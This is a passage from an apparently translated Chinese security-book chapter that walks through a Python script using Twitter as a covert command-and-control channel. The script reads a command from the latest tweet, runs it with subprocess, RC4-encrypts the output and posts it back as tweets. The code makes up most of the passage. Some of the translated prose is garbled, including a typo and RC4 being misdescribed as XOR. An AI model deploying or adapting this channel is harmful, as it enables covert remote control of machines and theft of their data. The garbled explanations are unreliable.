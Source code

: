 正在进行的脚本的示例如下所示：

![How to do it…](graphics/B04044_08_02.jpg)

## 它是如何工作的…

我们照常导入我们的库。有许多 Twitter Python 库；我只是在使用[上提供的标准 twitter APIhttps://code.google.com/p/python-twitter/](https://code.google.com/p/python-twitter/) 。代码如下：

```
from twitter import *
import os
from Crypto.Cipher import ARC4
import subprocess
import time
```

为了满足 Twitter 认证要求，我们需要从[developer.Twitter.com](http://developer.twitter.com)的**应用页面**中检索**应用令牌**、**应用秘密**、**用户令牌**和**用户秘密**。我们将其分配给变量，并设置与 Twitter API 的连接：

```
token = ''
token_key = ''
con_secret = ''
con_secret_key = ''
t = Twitter(auth=OAuth(token, token_key, con_secret, con_secret_key))
```

我们设置了一个无限循环：

```
while 1:
```

我们调用已设置帐户的用户时间表。重要的是，此应用程序对 Twitter 帐户具有读写权限。然后，我们获取最近一条推文的最后一条文本。我们需要将其编码为 UTF-8，因为通常存在常规编码无法处理的字符：

```
user = t.statuses.user_timeline()
command = user[0]["text"].encode('utf-8')
```

然后，我们使用 oxt 最后一条 tweet 作为加密密钥。我们将其编码为`hex`，以避免出现空间与空间匹配的情况：

```
key = user[1]["text"].encode('hex')
enc = ARC4.new(key)
```

我们使用`subprocess`函数执行该操作。我们使用预设的向上 XORing 加密对输出进行加密，并将其编码为 base64：

```
response = subprocess.check_output(command.split())
enres = enc.encrypt(response).encode("base64")
```

我们将加密和编码的响应分成 140 个字符的块，以允许 Twitter 字符上限。对于每个区块，我们创建一个 Twitter 状态：

```
for i in xrange(0, len(enres), 140):
  t.statuses.update(status=enres[i:i+140])
```

